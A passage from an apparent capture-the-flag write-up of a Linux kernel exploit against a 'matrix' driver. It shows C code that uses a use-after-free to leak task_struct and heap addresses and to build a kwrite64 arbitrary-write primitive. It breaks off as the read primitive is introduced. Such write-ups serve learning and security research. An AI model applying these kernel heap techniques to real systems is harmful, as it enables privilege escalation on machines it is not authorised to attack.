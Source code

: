   ![final_matrixes](./pics/final_matrixes.jpg)

ok.. now we have the ideal configuration.

If we read bytes into `fd5`, it will read from data ptr that point to our `fd2` freed chunk, so like this we can leak `task_struct` addr, and heap addresss to calculate next matrix `fd3` address.

like this:

```python
	for (i=0, task_struct=0; i<8; i++)
		task_struct |= (uint64_t)matrix_get_pos(fd5,i,5)<<(i<<3);
	printf("task_struct = 0x%llx\n", task_struct);

	// calculate address of fd3
	for (i=0, fd3_addr=0; i<8; i++)
		fd3_addr |= (uint64_t)matrix_get_pos(fd5,i,4)<<(i<<3);
	fd3_addr -= 0xc0;
	printf("fd3_addr = 0x%llx\n", fd3_addr);
```

if we write in `fd4`, actually we will write in `fd2` freed chunk. so we can modify data pointer in `fd2` freed chunk , to points to a specific address in memory, and then use the UAF by writing in `fd1`, that will write what we want to this address. Like this we can build our write primitive.

```c
void kwrite64(uint64_t addr, uint64_t value)
{
int i;
	// set data ptr in fd2
	for (i=0; i<8; i++)
		matrix_set_pos(fd4,i,1, (uint8_t)(addr>>(i<<3))&0xff );
	// write value in addr
	for (i=0; i<8; i++)
		matrix_set_pos(fd1,i,0, (uint8_t)(value>>(i<<3))&0xff );
}
```

for the read primitive, we can use the calculated address of `fd3`, and write it's data ptr with our write primitive to the address we want to read. Then by reading `fd3`, we can read where we want, like this:
